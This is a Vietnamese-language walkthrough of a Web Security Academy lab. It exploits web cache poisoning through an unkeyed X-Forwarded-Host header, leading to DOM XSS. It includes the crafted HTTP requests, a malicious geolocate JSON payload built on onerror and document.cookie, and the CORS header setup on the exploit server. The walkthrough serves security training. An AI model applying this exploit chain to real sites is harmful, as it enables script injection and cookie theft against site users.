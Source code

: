 ```http
GET /?abc HTTP/2
Host: 0a37000904c443d080e813bd003200d0.web-security-academy.net
X-Forwarded-Host: xnxx.com
```

```html
<script>
    data = {"host":"xnxx.com","path":"/"}
</script>
```

- Ta thấy **X-Forwarded-Host** đã **reflect** vào **HTML** khi dó nó sẽ gọi hàm
- Biến `data.host` bị ghi đè bởi **X-Forwarded-Host**

```html
<script>
    initGeoLocate('//' + 'xnxx.com' + '/resources/json/geolocate.json');
</script>
```
- Ứng dụng sẽ `fetch()` đến `//xnxx.com/resources/json/geolocate.json` và lấy thuộc tính `country` để gán trực tiếp vào **innerHTML**

```js
div.innerHTML = 'Free shipping to ' + j.country;
```

#### Exploit
- Dựng **JSON** độc hại trên **exploit server**

```json
{"country": "<img src=1 onerror=alert(document.cookie)>"}
```
- Đổi tên file thành `/resources/json/geolocate.json`
- Thêm header `Access-Control-Allow-Origin: *` vào header của **exploit server**
- Gửi lại request với giá trị của **X-Forwarded-Host** là url của **exploit server**

```http
GET / HTTP/2
Host: 0a37000904c443d080e813bd003200d0.web-security-academy.net
X-Forwarded-Host: exploit-0a8e008a04414340807a127701bf000a.exploit-server.net
```
- Gửi cho đến khi có dấu hiện đã được **cache**

```html
<script>
    data = {"host":"exploit-0a8e008a04414340807a127701bf000a.exploit-server.net","path":"/"}
</script>
```
- Khi đã được **cache** ứng dụng sẽ `fetch()` đến **exploit server** và hiển thị `j.country` ra **HTML** => **XSS** xảy ra
- Điều đặc biệt ở đây là phải thêm `Access-Control-Allow-Origin: *` vào header của **exploit server**
    - Vì khi sử dụng `fetch()` để lấy dữ liệu của trang khác **SOP (Same-Origin Policy)** sẽ ngắn chặn điều đó, nó chỉ cho tải tài nguyên của trang khác thông qua thuộc tính của thẻ **HTML** (ví dụ `src`,..) còn lại tải được nhưng không đọc được
    - Đây là cơ chế bảo mật của trình duyệt
    - **CORS (Cross Origin Resource Sharing)** sẽ nới lỏng cơ chế này khi **exploit server** trả về `Access-Control-Allow-Origin: *` => chấp nhận tất cả các trang khác tải về tài nguyên => **browser** cho phép trang hiện tại đọc tài nguyên được tải về
    - Nên khi dùng `fetch()` => trở nên hợp lệ
